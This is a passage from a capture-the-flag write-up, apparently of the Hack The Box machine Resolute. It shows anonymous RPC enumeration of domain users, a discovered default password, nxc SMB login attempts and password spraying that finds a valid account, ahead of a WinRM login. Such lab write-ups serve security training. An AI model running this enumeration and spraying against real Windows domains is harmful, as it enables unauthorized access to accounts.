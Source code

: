 ```bash
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita       Name: (null)    Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf  Name: (null)    Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach Name: (null)    Desc: (null)
```
With all this information, I can find a password Welcome123!for the user marko. But when I tried it, it didn't work with this user.
```bash
└─# nxc smb $ip -u 'marko' -p 'Welcome123!' --shares
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
```

So what to do? I will list all the users in the domain and then see if this password works with another user using PasswordSpraying
```bash
└─# rpcclient -U '' -N 10.129.96.155 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x'  | tr -d '[]' > res_user
Administrator
Guest
krbtgt
DefaultAccount
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```
![Resolute - HacktheBoxMedium](https://i.ibb.co/qdxkgmF/pic1.png)

With nxcI had melanieas being valid with the password that I found. So With this user I'm going to connect to the winrmas it's already open to see.
